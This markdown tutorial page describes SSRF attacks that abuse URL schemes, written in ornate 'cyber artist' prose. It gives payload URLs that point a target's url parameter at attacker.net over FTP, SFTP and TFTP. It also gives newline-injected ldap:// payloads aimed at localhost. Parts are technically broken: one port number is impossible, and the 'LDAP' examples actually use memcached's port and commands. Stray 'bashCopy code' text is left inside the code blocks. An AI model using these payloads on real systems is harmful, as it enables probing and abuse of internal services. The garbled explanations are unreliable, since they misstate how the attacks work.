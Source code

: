 ```yaml
---
cover: ../../.gitbook/assets/6.png
coverY: 21
---
```


# 🎊 Connecting to Services via URL Schemes

In our continued exploration of Server-Side Request Forgery (SSRF) exploits, we embark on a journey through the intricate web of URL schemes. These techniques, akin to a cyber artist's brushstrokes, allow attackers to connect to specific services, revealing concealed aspects of the digital landscape.

### **The Art of Connection: URL Schemes Unveiled**

Among the vast repertoire of SSRF exploits, one captivating chapter revolves around the utilization of URL schemes for connecting to diverse services. This artistry enables attackers to traverse the digital realm, connecting to services and uncovering their inner workings. Let's delve into this exquisite world:

### **File Transfer Protocols: A Symphony of Services**

The cyber artist, like a maestro conducting an orchestra, orchestrates a symphony of file transfer protocols to connect to remote services:

* _FTP: A Ballet of Data Transfer_

```bash
bashCopy codehttps://target.com/page?url=ftp://attacker.net:11211/
```

In this dance of data transfer, the attacker employs FTP, orchestrating a ballet of information exchange.

* _SFTP: A Serenade of Secure Connections_

```bash
bashCopy codehttps://target.com/page?url=sftp://attacker.net:11111/
```

With grace and precision, SFTP becomes a serenade, ensuring secure connections that resonate with cybersecurity.

* _TFTP: A Thrilling Voyage through UDP_

```bash
bashCopy codehttps://target.com/page?url=tftp://attacker.net:123456/TESTUDP
```

TFTP embarks on a thrilling voyage through UDP, exploring uncharted waters in the pursuit of data.

### **Abusing LDAP: An Artistic Intrigue**

As the artist's canvas expands, a new intrigue emerges—abusing the LDAP protocol:

* _The LDAP Mirage_: The attacker casts a mirage within the LDAP protocol, a digital illusion that conceals malicious intent:

```perl
perlCopy codehttps://target.com/page?url=ldap://127.0.0.1/%0astats%0aquit
```

This enigmatic exploit navigates the LDAP labyrinth, executing commands such as "stats" and "quit" within the protocol.

* _Local LDAP Manipulation_: With finesse, the attacker manipulates the local LDAP interface, drawing it into a web of digital artistry:

```perl
perlCopy codehttps://target.com/page?url=ldap://localhost:11211/%0astats%0aquit
```

Here, the artist ventures into the heart of LDAP, weaving a tapestry of commands to achieve their goals.

### **Conclusion: The Complexity of SSRF Exploits**

As we conclude our exploration of SSRF exploits, we are reminded of the intricate nature of these cyber techniques. URL schemes become the brushes and colors on the canvas, allowing attackers to craft their digital masterpieces. However, with great artistry comes great responsibility.

Understanding SSRF vulnerabilities and the techniques used to exploit them is essential for the security of digital landscapes. It is the duty of cybersecurity professionals to defend against these artistic exploits, ensuring that the canvas remains untouched by malicious strokes.
